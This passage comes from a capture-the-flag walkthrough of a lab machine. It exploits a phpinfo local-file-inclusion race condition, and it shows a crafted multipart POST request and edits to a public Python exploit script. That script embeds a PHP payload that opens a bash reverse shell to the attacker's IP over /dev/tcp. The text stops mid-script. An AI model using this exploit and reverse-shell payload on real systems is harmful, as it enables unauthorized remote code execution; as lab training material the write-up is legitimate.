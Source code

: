     
    
    POST /info.php HTTP/1.1
    Host: 10.10.10.43
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close
    Cookie: PHPSESSID=ehjpe8sp040ma068aen884obr7
    Upgrade-Insecure-Requests: 1
    Content-Length: 194
    Content-Type: multipart/form-data; boundary=---------------------------7db268605ae
    
    -----------------------------7db268605ae
    Content-Disposition: form-data; name="dummyname"; filename="test.txt" Content-Type: text/plainSecurity
    Test
    -----------------------------7db268605ae
    

I changed `GET` to `POST`, added the `Content-Type` header, and the POST body.

The resulting page include this:

![image-20200411073056237](https://0xdfimages.gitlab.io/img/image-20200411073056237.png)

That include the filename where this file is stored!

That file only exists for a fraction of a second, but sometimes I can win the
race and visit the page before it goes away. Insomnia puts a lot of padding
into the HTTP headers to increasing the processing time and therefore the
chances that attacker can win the race.

### Script Modifications

Insomnia provides [a Python
script](https://www.insomniasec.com/downloads/publications/phpinfolfi.py) that
will exploit this. I’ll download it, but it requires someediting to get it to
work in this case.

First, I’ll collect some variables I’ll need at the top:

    
    
    local_ip = "10.10.14.24"
    local_port = 443
    phpsessid = "ehjpe8sp040ma068aen884obr7"
    

The `PHPSESSID` will need to point to a valid session. Were I re-writing this
from scratch, I’d have the script just log in and get a session id that way,
but there’s too much going on here I don’t want to mess with now.

Now, I’ll change a bunch in the `setup` function at the top:

    
    
    def setup(host, port):
        TAG="Security Test"
        PAYLOAD="""%s\r <?php system("bash -c 'bash -i >& /dev/tcp/%s/%d 0>&1'");?>\r""" % (TAG, local_ip, local_port)
        REQ1_DATA="""-----------------------------7dbff1ded0714\r
    Content-Disposition: form-data; name="dummyname"; filename="test.txt"\r
    Content-Type: text/plain\r
    \r
    %s
    -----------------------------7dbff1ded0714--\r""" % PAYLOAD
        padding="A" * 5000
        REQ1="""POST /info.php?a="""+padding+""" HTTP/1.1\r
    Cookie: PHPSESSID=""" + phpsessid + """; othercookie="""+padding+"""\r
    HTTP_ACCEPT: """ + padding + """\r